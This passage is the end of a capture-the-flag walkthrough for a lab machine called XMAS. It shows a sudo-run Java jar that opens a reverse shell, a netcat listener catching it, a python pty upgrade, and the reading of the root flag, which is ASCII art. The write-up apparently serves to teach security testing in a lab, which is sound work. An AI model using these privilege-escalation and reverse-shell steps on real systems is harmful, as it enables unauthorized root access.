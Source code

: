 ```bash
```
Now we should sudo the jar file to run our reverse shell.
```bash
alabaster@xmas:~/PublishList$ sudo /usr/bin/java -jar /home/alabaster/PublishList/PublishList.jar
<va -jar /home/alabaster/PublishList/PublishList.jar

```
If all goes well, we have a reverse shell connection active and we can now work as root on the system.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ rlwrap nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.21] 50764
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@xmas:/home/alabaster/PublishList# 

```
The connection has been made, now let's prove that we are root on this system and capture the root flag.
```bash
root@xmas:/home/alabaster/PublishList# whoami;id;hostname;ip a
whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root)
xmas
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:b1:ae:10 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.21/24 metric 100 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 301sec preferred_lft 301sec
    inet6 fe80::a00:27ff:feb1:ae10/64 scope link 
       valid_lft forever preferred_lft forever

root@xmas:/home/alabaster/PublishList# cd /root
cd /root
root@xmas:~# ls
ls
root.txt  snap
root@xmas:~# cat root.txt
cat root.txt
      __,_,_,___)          _______
    (--| | |             (--/    ),_)        ,_) 
       | | |  _ ,_,_        |     |_ ,_ ' , _|_,_,_, _  ,
     __| | | (/_| | (_|     |     | ||  |/_)_| | | |(_|/_)___,
    (      |___,   ,__|     \____)  |__,           |__,

                            |                         _...._
                         \  _  /                    .::o:::::.
                          (\o/)                    .:::'''':o:.
                      ---  / \  ---                :o:_    _:::
                           >*<                     `:}_>()<_{:'
                          >0<@<                 @    `'//\\'`    @ 
                         >>>@<<*              @ #     //  \\     # @
                        >@>*<0<<<           __#_#____/'____'\____#_#__
                       >*>>@<<<@<<         [__________________________]
                      >@>>0<<<*<<@<         |=_- .-/\ /\ /\ /\--. =_-|
                     >*>>0<<@<<<@<<<        |-_= | \ \\ \\ \\ \ |-_=-|
```